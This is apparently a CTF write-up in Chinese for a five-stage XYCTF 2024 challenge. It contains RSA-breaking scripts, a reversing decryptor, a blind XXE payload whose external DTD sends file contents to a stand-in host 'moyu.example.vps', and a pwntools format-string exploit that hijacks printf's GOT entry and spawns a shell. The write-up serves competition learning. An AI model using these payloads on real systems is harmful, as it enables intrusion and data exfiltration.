






余师傅出的五个方向合在一起的一道题，比赛中有5支队伍解出。摸鱼队的Crypto和Misc部分由luoingly师傅完成，Reverse、Web和Pwn部分由我完成。Reverse做了一天，Web现学现卖做一晚上，Pwn现学现卖做两天，算是我第一次做出来Pwn题。感谢这道题让我学会了XXE和Format String（指会做这道题）。

[本站上的 XYCTF 2024 (Reverse) Writeup by 摸鱼 与评价](/posts/ctf-writeups/xyctf-2024-reverse/)

[XYCTF 2024 Writeup by 摸鱼](https://vilanruise.notion.site/7cc7b25425c049dea62755b96a805f29)

[复现平台](https://gz.imxbt.cn/games/4/)

# 第一步 Crypto

```python
import gmpy2 as gp

e = 65537
n = 528565534050303289402007510968179435618186732104470795324112506464649249469837867028185617
dp = 487978202023750799970713551102136558437027925

for x in range(1, e):
	if(e*dp%x==1):
		p=(e*dp-1)//x+1
		if(n%p!=0):
			continue
		q=n//p
		phin=(p-1)*(q-1)
		d=gp.invert(e, phin)
		print("p = ", p)
		print("q = ", q)
```

```python
import libnum
import gmpy2
n1 = 60984961924036640364806324068224697071843724749390772716648370179057892113876360274026354662527777447902822720596626094363633542717821045035441273653134740082082972528467040631675108058268481211224587979227700303746708094408639881186270901498495613159595719501389800228775436242418332342165682104816100945559
e1 = 718052616328316407959060891790846549694362099
c1 = 14643165800600469237679161939570210679439096911755461832302138620621212724063371108183767129591712055258072458698793819383057004625557577440444773493982158481797933707633029392859049044470914532014267958303995860803871791733761877112192748951375669095992152628840179729532225161446048952172457991042916248568
n2 = n1
e2 = 736109753005379176045853848742061395149928683
c2 = 47744166763747993083913069262560688521758241055343711330487778299969300229670028543968082464934326523754042128559756835029869433598546417098582906459369495989688837877596260888669274901459794346656919486877501825652169698125071792901224555479266468029736677586557495945618181583432146191688552560789016927665
s, s1, s2 = gmpy2.gcdext(e1, e2)
m = (pow(c1, s1, n1)*pow(c2, s2, n2)) % n1
print(libnum.n2s(int(m)).decode())
```

可以得到内容「the key of txt is XYXY1l0v3y0u and another key is 99 88 77 66」

# 第二步 Misc

使用上面的到的 key 可以解密解压 zip，可以得到一段具有 Unicode 零宽隐写的文本，其中隐写内容为「The username is WelcomeXY」，明文内容为一系列密码。enc 为一个 Base64 编码的套娃 zip，在文件尾有字符「The username is WelcomeXY」。使用密码表：

```plaintext
SuyunandXiao
ZhaoWuandSuyun
Shinandlingfeng
nydnandk0rian
faultandalei
```

按照一定顺序作为密码层层解压套娃压缩包，最后能够得到 ezre.apk。

# 第三步 Reverse VM

ezre.apk缺了ZipDirEntry和ZipEndLocator，用7-Zip强制解压再重新压缩为zip文件，即可导入JADX

MainActivity是用户输入key和flag，在JNI加密，然后气泡提示加密结果

贴一份整理符号后的反编译代码





key是Misc部分得到的99 88 77 66

复制出来，打印出执行顺序





```c
#include <stdio.h>
#include "defs.h"
#define u32 unsigned int

const u32 key[] = {99, 88, 77, 66};

void encrypt(u32 *input)
{
    for (int i = 1; i < 20; i += 2)
    {
        u32 delta = 0;
        for (int j = 0; j < 32; j++)
        {
            u32 r = input[i];
            input[i - 1] += (((r << 4) ^ (r >> 5)) + r) ^ (delta + key[delta & 3]);
            delta += 0x12345678;
            u32 l = input[i - 1];
            input[i] += (((l << 4) ^ (l >> 5)) + l) ^ (delta + key[(delta >> 10) & 3]);
        }
    }
}

unsigned char ida_chars[] =
    {
        0x0C, 0x2A, 0x54, 0x5C, 0x8B, 0xF0, 0xF8, 0xCD, 0x35, 0x4B,
        0x17, 0x93, 0x2F, 0x73, 0x73, 0xFF, 0xEF, 0xF6, 0xF5, 0xAC,
        0xD0, 0xBA, 0x19, 0x4D, 0xAB, 0x4B, 0xF5, 0xFD, 0x38, 0x71,
        0xC8, 0xE1, 0x3D, 0x15, 0xC0, 0xF2, 0x84, 0x0C, 0x27, 0x7E,
        0xD7, 0x8D, 0x07, 0x34, 0xCD, 0x33, 0x5F, 0x96, 0xEB, 0x63,
        0x6A, 0x8D, 0xF5, 0x83, 0xFB, 0x92, 0x31, 0x46, 0xC8, 0xBB,
        0x9A, 0x59, 0x40, 0x73, 0x2F, 0xE8, 0x38, 0xE0, 0xF9, 0x40,
        0x66, 0x15, 0xB9, 0xC9, 0xF5, 0xEE, 0x84, 0x65, 0x2C, 0xF5,
        0x6C, 0xC3, 0x54, 0xC3, 0xCE, 0x1D, 0x70, 0x9F};

void decrypt(u32 *content)
{
    for (int i = 21; i > 0; i -= 2)
    {
        u32 delta = 0x12345678 * 32;
        for (int j = 0; j < 32; j++)
        {
            u32 l = content[i - 1];
            content[i] -= (((l << 4) ^ (l >> 5)) + l) ^ (delta + key[(delta >> 10) & 3]);
            delta -= 0x12345678;
            u32 r = content[i];
            content[i - 1] -= (((r << 4) ^ (r >> 5)) + r) ^ (delta + key[delta & 3]);
        }
    }
}

int main()
{
    // char test[] = "Hello, World! Hello, World! Hello, World! Hello, World! Hello, World! Hello, World! ";
    // encrypt((u32 *)test);
    // decrypt((u32 *)test);
    // printf("%s\n", test);
    decrypt((u32 *)ida_chars);
    for (int i = 0; i < 88; i+=4)
    {
        printf("%c", ida_chars[i]);
    }
    return 0;
}

// https://baby.imxbt.cn/
```

# 第四步 Web XXE

无回显无报错XXE，嵌套写三次可绕过过滤

```xml
<?xmxmxmlll version="1.0" ?>
<!DOCDOCDOCTYPETYPETYPE ANY [
    <!ENENENTITYTITYTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=hint.php">
    <!ENENENTITYTITYTITY % a SYSTEM "http://moyu.example.vps/test.dtd" >
    %a;%send;
]>
<credentials>
  <username>WelcomeXY</username>
  <password>YXemocleW</password>
</credentials>

```

test.dtd:

```xml
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://moyu.example.vps:4869/?p=%file;' >">
%int;
```



读到hint.php的内容：

```php
<?php
defined('ACCESS') or exit('干嘛，像偷窥我？');

echo "well！And now you can download the newpwn.zip in /HAHA/PWN";
?>
```

https://baby.imxbt.cn/HAHA/PWN/newpwn.zip

# 第五步 Pwn FmtStr

随机数只要本地校准时间然后同一秒钟设置种子就可以生成，然后进入vuln函数，但是正常情况下只有一次printf并且payload最多100字节。因为fmtstr需要确定的写入地址和确定的写入值，所以第一次先泄露栈地址和libc地址，并将.fini_array改成vuln函数地址，以便再次进入vuln函数。第二次用fmtstr把printf的got表改为system的地址，并把返回地址改为retn的地址（栈16字节对齐），后面跟vuln函数的地址，以便第三次进入vuln函数。第三次调用printf实际上是调用system，输入/bin/sh\x00即可get shell。

```c
#include <stdlib.h>
#include <time.h>

void set_seed() {
    srand(time(NULL));
    srand(rand() % 5 + 114514);
}

int random_number() {
    return rand() % 4 + 159357158;
}
```

```python
from pwn import *
import ctypes

context.arch = 'amd64'
# context.log_level = 'debug'
elf = ELF('./XYCTF')
libc = ELF('./libc.so.6')
io = process('./XYCTF')
# io = remote('xyctf.top', 47279)

# 随机数部分

lib_rand = ctypes.CDLL('./my_random.so')
lib_rand.random_number.restype = ctypes.c_int
lib_rand.set_seed()

for i in range(51):
    io.recvuntil(f'game: {i}\n'.encode())
    io.sendline(str(lib_rand.random_number()).encode())

io.recvuntil(b'Now,plz you input:\n')

# # test
# io.sendline(b'AAAA.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p')
# print(io.recvall())

# 第一步：把.fini_array中__do_global_dtors_aux的地址改为vuln函数的地址，以便再次进入vuln，同时泄漏libc地址和vuln函数返回地址的地址
# %6$s 是 payload 自己
# %p. 是格式化字符串的地址，输出了15个字符
# %10$s. 是libc printf的地址，输出了7个字符
# 总共需要4804个字符
printf_got = elf.got['printf'] # 0x4033d8
addr_of_fini_array = 0x4031c0
payload = b'%p.%10$s.%4782d%9$hn....' + p64(addr_of_fini_array) + p64(printf_got)
payload += b'\x00' * (100 - len(payload))

# print(payload.hex())
io.send(payload)

res = io.recvuntil(b'Now,plz you input:\n')
addr_of_fmtstr = eval(res[:14])
addr_of_printf = int.from_bytes(res[15:21], 'little')
addr_of_system = addr_of_printf - libc.sym['printf'] + libc.sym['system']
print(hex(addr_of_fmtstr), hex(addr_of_printf))
print(hex(addr_of_system))

addr_of_new_fmtstr = addr_of_fmtstr - 0xB0
addr_of_ret_addr = addr_of_new_fmtstr + 0x78

# gdb.attach(io, 'b *0x4012c4')

# 第二步：我们现在有vuln函数返回地址的地址，把它改为retn的地址（栈对齐），后面跟vuln函数的地址，以便再次进入vuln，同时把printf的got表改为system的地址
payload = b''
written_bytes = 0
addr_of_vuln = 0x4012c4
addr_of_C3 = 0x40132b
payload += f'%{(((addr_of_system&0xff0000)>>16)+0x100-written_bytes)&0xff}d%16$hhn'.encode()
written_bytes = (addr_of_system&0xff0000)>>16
payload += f'%{((addr_of_system&0xffff)+0x10000-written_bytes)&0xffff}d%17$hn'.encode()
written_bytes = addr_of_system&0xffff
payload += f'%{addr_of_vuln-written_bytes}d%15$ln'.encode()
written_bytes = addr_of_vuln
payload += f'%{addr_of_C3-written_bytes}d%14$ln'.encode()
print(len(payload))
assert len(payload) <= 64
payload += b'.' * (64 - len(payload))
payload += p64(addr_of_ret_addr) # 写入retn的地址8字节
payload += p64(addr_of_ret_addr + 8) # 写入vuln的地址8字节
payload += p64(printf_got + 2) # 写入system的地址低第3字节
payload += p64(printf_got) # 写入system的地址低1-2字节
payload += b'\x00' * (100 - len(payload))
print(payload)
io.send(payload)

io.recvuntil(b'Now,plz you input:\n', timeout=600)
io.sendline(b'/bin/sh\x00')
io.interactive()
```



🚩 `XYCTF{0f1c8f3f-a2d9-4d9e-9cf4-175152030288}`
